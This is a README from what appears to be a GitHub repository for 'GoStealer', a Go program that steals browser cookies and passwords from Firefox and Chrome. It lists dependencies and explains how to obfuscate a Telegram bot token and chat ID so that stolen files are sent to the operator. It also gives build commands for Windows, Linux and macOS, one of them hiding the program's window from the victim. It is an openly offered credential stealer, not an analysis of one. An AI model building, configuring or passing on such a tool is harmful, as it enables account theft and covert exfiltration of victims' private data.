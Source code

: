 # GoStealer

#### **a cookies/passwords stealer written in GoLang support `FireFox` and `Chrome`**

### Libraries
> https://github.com/zalando/go-keyring
>
> https://github.com/Pallinder/go-randomdata
>
> https://github.com/mattn/go-sqlite3
>
> https://github.com/tidwall/gjson
>
> https://golang.org/x/crypto/pbkdf2

```
go get github.com/Pallinder/go-randomdata
go get github.com/mattn/go-sqlite3
go get github.com/tidwall/gjson
go get github.com/zalando/go-keyring
go get golang.org/x/crypto/pbkdf2
```
**- go-sqlite3 needs gcc on windows cause it depends on some c librares**

## setup

> to change the files destination you need to use [mumbojumbo](https://github.com/jeromer/mumbojumbo) tool to obfuscate the strings. 
>
> change the function called `ERxr8Z1` in `RiC4ef/RiC4ef.go` with the obfuscated "bot token of telegram you just made" by [mumbojumbo](https://github.com/jeromer/mumbojumbo).
>
> then replace `Wprep42` function in `RiC4ef/RiC4ef.go` with the obfuscated "chat ID which the stealer will send the files to" in format `sendDocument?chat_id={ID}` by [mumbojumbo](https://github.com/jeromer/mumbojumbo).

## build

### Windows
```
GOOS=windows ARCH=amd64 go build -ldflags "-s -w" -o stealer.exe .
```
**To hide the window**
```
GOOS=windows ARCH=amd64 go build -ldflags "-s -w -H=windowsgui" -o stealer.exe .
```
### Linux
```
GOOS=linux ARCH=386 go build -ldflags "-s -w" -o stealer .
```
### MacOS
```
GOOS=darwin ARCH=amd64 go build -ldflags "-s -w" -o stealer .
```

## Contact

> Instagram: [@0xhades](https://instagram.com/0xhades)

**- If you really want the unobfuscated strings of the source code just tell me to add it, cause i'm lazy to do it right now**


